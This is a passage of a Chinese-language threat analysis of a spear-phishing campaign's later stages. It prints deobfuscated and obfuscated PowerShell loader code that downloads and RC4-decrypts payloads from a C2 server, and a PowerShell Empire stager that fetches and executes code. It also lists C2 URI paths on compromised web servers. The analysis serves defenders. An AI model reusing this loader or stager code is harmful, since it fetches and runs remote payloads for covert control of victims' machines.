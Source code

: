 样本所下载的第二阶段载荷是一个HTA文件，该文件同样会执行一个Powershell脚本。

[![](https://p2.ssl.qhimg.com/t011a85204835f5e268.png)](https://p2.ssl.qhimg.com/t011a85204835f5e268.png)

图4. 下载的access.log.txt文件

这个文件与鱼叉式钓鱼文档宏所执行的Powershell脚本采用相似的结构。经过去混淆处理后，我们可以看到这个脚本同样会禁用掉Powershell日志记录功能，然后从同一个服务器地址下载下一阶段载荷。该文件同样使用了带有预定义密钥的RC4算法：

```
$`{`k`}`=  (  Get-vaRiablE  R4Imz  -VAl  )::”aSCIi”.GEtBytEs.Invoke(d209233c7d7d7acee5aa0e8b0889bb1e);
$`{`r`}`=`{`$`{`D`}`,$`{`K`}`=$`{`ARGs`}`;
$`{`s`}`=0..255;
0..255^|.(‘%’)`{`$`{`j`}`=($`{`j`}`+$`{`S`}`[$`{`_`}`]+$`{`k`}`[$`{`_`}`%$`{`K`}`.”COUNT”])%256;
$`{`S`}`[$`{`_`}`],$`{`s`}`[$`{`J`}`]=$`{`s`}`[$`{`j`}`],$`{`s`}`[$`{`_`}`]`}`;
$`{`d`}`^|.(‘%’)`{`$`{`I`}`=($`{`I`}`+1)%256;
$`{`h`}`=($`{`h`}`+$`{`S`}`[$`{`I`}`])%256;
$`{`s`}`[$`{`I`}`],$`{`S`}`[$`{`H`}`]=$`{`s`}`[$`{`h`}`],$`{`s`}`[$`{`i`}`];
$`{`_`}`-BxOR$`{`s`}`[($`{`s`}`[$`{`i`}`]+$`{`S`}`[$`{`h`}`])%256]`}``}`;
$`{`wC`}`.”HeaDErS”.Add.Invoke(Cookie,session=B43mgpQ4No69GDp3PmklQpTZB5Q=);
$`{`SeR`}`=https://mysent[.]org:443;
$`{`t`}`=/modules/admin.php;
$`{`dATA`}`=$`{`wc`}`.DOWNLOAdDaTA.Invoke($`{`SeR`}`+$`{`t`}`);
$`{`iV`}`=$`{`DATA`}`[0..3];
$`{`DATA`}`=$`{`dATA`}`[4..$`{`dAta`}`.”LeNGTh”];
-JoiN[ChAR[]](^&amp; $`{`R`}` $`{`daTa`}` ($`{`IV`}`+$`{`k`}`))
```

最后一个载荷为Powershell Empire agent。如下部分代码中，样本通过http stager scriptlet来下载Empire agent。

```
$wc.HeAders.Add(“User-Agent”,$UA);
 $raw = $wc.UploadData($s + “/modules/admin.php”,”POST”,$rc4p2);
 Invoke-Expression $($e.GetSTRiNG($(DecrYPT-BYtEs -KeY $kEy -In $raW)));
 $AES = $NuLl;
 …
 [GC]::COLLEcT(); 
 Invoke-Empire -Servers @(($s -split “/”)[0..2] -join “/”) -StagingKey $SK -SessionKey $key -SessionID $ID -WorkingHours “WORKING_HOURS_REPLACE” -KillDate “REPLACE_KILLDATE” -ProxySettings $Script:Proxy; `}`
```

Powershell Empire是使用Python以及Powershell编写的后渗透开源框架，可以以无文件方式来控制被突破的主机，采用模块化体系结构，使用了加密通信方式。渗透测试公司在横向渗透以及信息收集等合法安全测试工作中广泛用到了这个框架。



## 三、基础设施

我们认为攻击者使用了被攻破的合法web服务器来托管并控制恶意软件。根据分析结果，我们发现的C2服务器所涉及到的URI路径包含以下特征：

```
/components/com_tags/views
/components/com_tags/views/admin
/components/com_tags/controllers
/components/com_finder/helpers
/components/com_finder/views/
/components/com_j2xml/
/components/com_contact/controllers/
```
